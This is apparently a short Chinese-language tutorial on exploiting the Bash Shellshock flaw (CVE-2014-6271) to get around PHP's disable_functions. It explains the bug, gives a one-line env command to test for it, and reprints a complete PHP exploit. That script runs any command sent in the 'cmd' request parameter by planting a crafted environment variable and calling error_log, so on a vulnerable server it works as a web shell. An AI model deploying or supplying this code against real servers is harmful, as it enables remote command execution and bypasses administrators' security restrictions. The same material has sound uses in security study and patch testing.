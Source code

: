 
  

##

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210820102323.png)

## 利用Bash Shellshock(CVE-2014-6271)破壳漏洞  

利用条件php < 5.6.2 & bash <= 4.3（破壳）

Bash使用的环境变量是通过函数名称来调用的，导致漏洞出问题是以“(){”开头定义的环境变量在命令ENV中解析成函数后，Bash执行并未退出，而是继续解析并执行shell命令。而其核心的原因在于在输入的过滤中没有严格限制边界，也没有做出合法化的参数判断。

简单测试是否存在破壳漏洞: 命令行输入`env x='() { :;}; echo vulnerable' bash -c "echo this is a
test"`如果输出了`vulnerable`，则说明存在bash破壳漏洞

![]()

EXP如下:

    
    
    <?php   
    # Exploit Title: PHP 5.x Shellshock Exploit (bypass disable_functions)   
    # Google Dork: none   
    # Date: 10/31/2014   
    # Exploit Author: Ryan King (Starfall)   
    # Vendor Homepage: http://php.net   
    # Software Link: http://php.net/get/php-5.6.2.tar.bz2/from/a/mirror   
    # Version: 5.* (tested on 5.6.2)   
    # Tested on: Debian 7 and CentOS 5 and 6   
    # CVE: CVE-2014-6271   
      
    function shellshock($cmd) { // Execute a command via CVE-2014-6271 @mail.c:283   
       $tmp = tempnam(".","data");   
       putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");   
       // In Safe Mode, the user may only alter environment variableswhose names   
       // begin with the prefixes supplied by this directive.   
       // By default, users will only be able to set environment variablesthat   
       // begin with PHP_ (e.g. PHP_FOO=BAR). Note: if this directive isempty,   
       // PHP will let the user modify ANY environment variable!   
       //mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actuallysend any mail   
       error_log('a',1);  
       $output = @file_get_contents($tmp);   
       @unlink($tmp);   
       if($output != "") return $output;   
       else return "No output, or not vuln.";   
    }   
    echo shellshock($_REQUEST["cmd"]);   
    ?>       
    